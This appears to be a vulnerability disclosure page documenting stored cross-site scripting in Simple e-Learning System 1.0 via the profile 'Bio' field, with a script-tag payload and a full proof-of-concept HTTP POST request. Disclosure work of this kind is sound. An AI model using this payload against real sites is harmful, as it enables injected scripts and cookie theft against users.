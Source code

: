 #### Title: Simple e-Learning System 1.0 Stored Cross-Site Scripting
#### Author: Shekhar Hussain (https://www.linkedin.com/in/shekharcharles)
#### Date: 13.07.2022
#### Vendor: https://www.sourcecodester.com/users/tips23
#### Software: https://www.sourcecodester.com/php-simple-e-learning-system-source-code
#### Version: 1.0
#### Reference: https://github.com/CyberThoth/CVE/blob/f65282f1f22b659a26efbd4c394999932d6cd834/CVE/Simple%20e-Learning%20System/Cross%20Site%20Scripting(Stored)/POC.md


#### Description：
####   Simple e-Learning System is vulnerable to Stored cross-site scripting on the profile add deatils page. The "Bio" parameter in 'http://localhost/vcs/claire_blake' is vulnerable.

#### Impact:
 An attacker could steal cookies with a crafted URL sent to the victims.


#### Payload used:
`"><script>alert(document.cookie)</script>`


 ### POC

```
POST /vcs/claire_blake HTTP/1.1
Host: localhost
Content-Length: 143
Cache-Control: max-age=0
sec-ch-ua: "Chromium";v="97", " Not;A Brand";v="99"
sec-ch-ua-mobile: ?0
sec-ch-ua-platform: "Windows"
Upgrade-Insecure-Requests: 1
Origin: http://localhost
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/97.0.4692.71 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Referer: http://localhost/vcs/claire_blake
Accept-Encoding: gzip, deflate
Accept-Language: en-GB,en-US;q=0.9,en;q=0.8
Cookie: PHPSESSID=2vbf8fv8l1iaabtd45grgqt809
Connection: close

firstName=Claire&lastName=Blake&phoneNumber=2147483647&bio=%22%3E%3Cscript%3Ealert%28document.cookie%29%3C%2Fscript%3E&profile-updateBtn=Update
```

![image](https://github.com/CyberThoth/CVE/blob/f65282f1f22b659a26efbd4c394999932d6cd834/CVE/Simple%20e-Learning%20System/Cross%20Site%20Scripting(Stored)/1.png)

![image](https://github.com/CyberThoth/CVE/blob/f65282f1f22b659a26efbd4c394999932d6cd834/CVE/Simple%20e-Learning%20System/Cross%20Site%20Scripting(Stored)/2.png)

![image](https://github.com/CyberThoth/CVE/blob/f65282f1f22b659a26efbd4c394999932d6cd834/CVE/Simple%20e-Learning%20System/Cross%20Site%20Scripting(Stored)/3.png)